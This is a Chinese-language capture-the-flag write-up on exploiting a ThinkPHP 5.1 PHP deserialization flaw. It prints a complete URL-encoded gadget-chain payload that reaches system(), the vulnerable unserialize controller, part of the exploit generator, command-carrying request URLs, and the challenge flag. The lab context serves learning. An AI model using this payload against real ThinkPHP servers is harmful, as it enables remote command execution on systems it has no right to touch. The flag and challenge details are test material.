





## flag
`n1book{de70641304640057390e8fabc8b515bf}`

## 前言
这道题目的环境是有问题的，我不知道是BUUCTF上的环境问题，还是说Nu1l官方的docker环境有问题。提供的源代码与环境自身的源代码不一致，导致浪费了很多时间，并且官方给的exp和wp无法对应，对于没有做过tp利用链的人来说门槛较高，还需要自己去debug，不过确实学到了很多，下面开始WP。
## 思路
1. 访问环境时提示下载源代码`www.zip`   
    
2. 下载源代码后解压缩，通过阅读readme.md发现是thinkphp 5.1版本，网上搜索后，得到[利用链thinkphp_5.1_exp.php文件](scripts/thinkphp_5.1_exp.php)，只需执行`php thinkphp_5.1_exp.php`，便可以得到payload。关于利用链的构造网上很多大神分析了，可以看[Thinkphp 5.1 反序列化利用链深入分析]，我就不分析了，重点讲下做题。(https://paper.seebug.org/1040/)  
   ```
   payload内容如下：
   O%3A27%3A%22think%5Cprocess%5Cpipes%5CWindows%22%3A1%3A%7Bs%3A34%3A%22%00think%5Cprocess%5Cpipes%5CWindows%00files%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00append%22%3Ba%3A1%3A%7Bs%3A1%3A%22a%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A0%3A%22%22%3B%7D%7Ds%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A1%3A%22a%22%3BO%3A13%3A%22think%5CRequest%22%3A3%3A%7Bs%3A7%3A%22%00%2A%00hook%22%3Ba%3A1%3A%7Bs%3A7%3A%22visible%22%3Ba%3A2%3A%7Bi%3A0%3Br%3A8%3Bi%3A1%3Bs%3A6%3A%22isAjax%22%3B%7D%7Ds%3A9%3A%22%00%2A%00filter%22%3Bs%3A6%3A%22system%22%3Bs%3A9%3A%22%00%2A%00config%22%3Ba%3A1%3A%7Bs%3A8%3A%22var_ajax%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D%7D%7D%7D
   ``` 
3. 这里分析一下thinkphp的2个主要文件，然后分析一下[利用链thinkphp_5.1_exp.php文件](scripts/thinkphp_5.1_exp.php) 
   1. application\index\controller\index.php文件,只有请求被hello解析时，才能通过构造POST请求将payload赋值给str，实现反序列化利用。
      ```php
      <?php
      namespace app\index\controller;

      class Index
      {
         public function index()
         {
            return "<a href='www.zip'>download code</a>";
         }

         public function hello()
         {
            unserialize($_POST['str']);
         }
      }
      ```
   2. route\route.php文件，压缩包源代码与实际BUUCTF服务器代码不一样。本人先在本地phpstudy搭建环境获得命令执行权限后，服务器相同url却不能获得权限，后来证实原因是路由代码不一致。
     - 压缩包代码如下
         ```php
         <?php
         Route::get('think', function () {
            return 'hello,ThinkPHP5!';
         });
         Route::get('hello/:name', 'index/hello');
         return [
         ];
         ```
      - BUUCTF服务器代码
         ```php
         if (is_file($_SERVER["DOCUMENT_ROOT"] . $_SERVER["SCRIPT_NAME"])) 
         { return false; } 
         else
         { require __DIR__ . "/index.php"; } 
         ```
   3. [利用链thinkphp_5.1_exp.php文件](scripts/thinkphp_5.1_exp.php)前几行内容如下，其中`a`参数用来承载实际执行的命令。
      ```php
      <?php
      namespace think;
      abstract class Model{
         protected $append = [];
         private $data = [];
         function __construct(){
            $this->append = ["a"=>[""]]; 
            $this->data = ["a"=>new Request()];
         }
      }
      ```
4. 本机phpstudy环境下，根据源代码构造了两种url请求，以whoami为例子。第一个请求路由为*application\index\controller\index.php文件*->*Index类*->*hello()方法*，第二个请求利用了thinkphp的[兼容模式url](https://m.php.cn/phpkj/thinkphp/448480.html)
- `http://{your_server}/public/index.php/index/Index/hello?a=whoami`
- `http://{your_server}/public/index.php?s=index/index/hello&a=whoami`
    
  
5. 介绍完本机命令执行，再来介绍BUUCTF命令执行。服务器只能用第二种请求，构造参数`a=cd /;ls`和`a=cd /;cat FLAG`，`str`的值为1中payload，通过`hackbar`或`burpsuite`发包。   
    
    
## 总结  
thinkphp 5.1的反序列化漏洞，由于thinkphp 5.1还存在RCE漏洞(漏洞触发条件是默认路由情况下，可以导致RCE)，所以这道题源代码的route.php修改了默认路由，不能直接通过RCE执行命令，只能按着出题人思路用php反序列化。  
难点如下
- 找到利用点，application\index\controller\index.php文件的hello函数
- 构造正确的路由，不清楚tp路由的话，很难构造正确的路由，正确构造`a`的值，post上传`str`的payload
- thinkphp5.1 php反序列化利用链

## 参考资料
- [php反序列化与session反序列化](http://p0desta.com/2018/04/01/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%80%BB%E7%BB%93/)